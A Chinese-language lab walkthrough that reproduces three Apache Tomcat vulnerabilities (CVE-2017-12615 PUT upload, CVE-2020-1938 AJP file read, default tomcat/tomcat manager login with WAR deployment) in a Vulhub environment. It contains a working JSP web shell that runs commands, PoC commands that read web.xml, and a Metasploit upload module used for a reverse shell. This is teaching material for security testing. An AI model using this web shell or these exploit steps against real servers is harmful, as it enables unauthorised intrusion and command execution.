# 1.**Tomcat常见漏洞**

## 1.1.**前言**

整个复现环境均使用Vulhub一键搭建漏洞测试靶场。

[Vulhub靶场](https://vulhub.org/#/environments/tomcat/CVE-2017-12615/)

## 1.2.**文件上传 (CVE-2017-12615)**

### 1.2.1.**漏洞原理**

Tomcat配置文件/conf/web.xml 配置了可写（readonly=false），导致可以使用PUT方法上传任意文件，攻击者将精心构造的payload向服务器上传包含任意代码的 JSP 文件。之后，JSP 文件中的代码将能被服务器执行。

 

### 1.2.2.**影响版本**

Apache Tomcat 7.0.0 – 7.0.81

### 1.2.3.**漏洞复现**

#### 1.2.3.1.**测试是否允许PUT**

这里修改请求方式为OPTIONS /xx HTTP/1.1，通过修改后发现允许PUT方法。

 

#### 1.2.3.2.**验证漏洞是否存在**

这里修改请求方式为：PUT /test.jsp/ HTTP/1.1，请求体为：<%out.print("hacker"); %>，然后访问test.jsp。

 

#### 1.2.3.3.**访问test.jsp**

URL：http:ip地址:端口/test.jsp

 

#### 1.2.3.4.**上传执行命令脚本**

修改请求头PUT /test.jsp/ HTTP/1.1，修改请求体。

请求体：

```
<%

  if("123".equals(request.getParameter("pwd"))){

​    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();

​    int a = -1;      

​    byte[] b = new byte[1024];      

​    out.print("<pre>");      

​    while((a=in.read(b))!=-1){

​      out.println(new String(b));      

​    }

​    out.print("</pre>");

  } 

%>
```

 

#### 1.2.3.5.**执行命令**

```
http://ip地址:8080/test.jsp?&pwd=123&cmd=ls
```

 

## 1.3.**文件包含漏洞（CVE-2020-1938）**

### 1.3.1.**漏洞原理**

Tomcat 配置了两个Connecto，它们分别是 HTTP 和 AJP ：HTTP默认端口为8080，处理http请求，而AJP默认端口8009，用于处理 AJP 协议的请求，而AJP比http更加优化，多用于反向、集群等，漏洞由于Tomcat AJP协议存在缺陷而导致，攻击者利用该漏洞可通过构造特定参数，读取服务器webapp下的任意文件以及可以包含任意文件，如果有某上传点，上传图片马等等，即可以获取shell。

### 1.3.2.**影响版本**

Apache Tomcat 6

Apache Tomcat 7 < 7.0.100

Apache Tomcat 8 < 8.5.51

Apache Tomcat 9 < 9.0.31

开启了8009端口的ajp服务

### 1.3.3.**漏洞复现**

#### 1.3.3.1.**访问页面**

访问http://your-ip:8080即可查看tomcat默认页面，此时通过AJP协议的8009端口亦可访问Tomcat。

 

#### 1.3.3.2.**POC下载**

[POC链接](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)

当然你也可以在kali中使用命令进行下载，检测等，不过我这里由于网络原因一直下载不下来，我就用本机下载再上传虚拟机了。

命令：

```
git clone https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi  

cd CNVD-2020-10487-Tomcat-Ajp-lfi  

python CNVD-2020-10487-Tomcat-Ajp-lfi.py   #py2环境  
```

 

#### 1.3.3.3.**POC验证**

这里查看8009端口下的web.xml文件

```
命令：python2 CNVD-2020-10487-Tomcat-Ajp-lfi.py IP地址 -p 8009 -f /WEB-INF/web.xml
```

 

## 1.4.**弱口令&war远程部署**

### 1.4.1.**漏洞原理**

在tomcat8环境下默认进入后台的密码为tomcat/tomcat，未修改造成未授权即可进入后台。

### 1.4.2.**影响版本**

全版本

### 1.4.3.**漏洞复现**

#### 1.4.3.1.**访问后台**

这里首先需要先访问后台管理。

```
http://ip地址:8080/manager/html
```

 

#### 1.4.3.2.**后台管理**

在后台有一个上传war包的地方，这里就是我们用来上传木马的地方，这里我没准备jsp马，我使用msf来进行操作吧。

 

#### 1.4.3.3.**进入模块**

进入msf里面的exploit/multi/http/tomcat_mgr_upload模块。

 

#### 1.4.3.4.**获取shell**

我这边由于使用云服务器，存在反弹的端口不通，可能被拦截了，所以就没有反弹回来。

 

 

 

 

 

 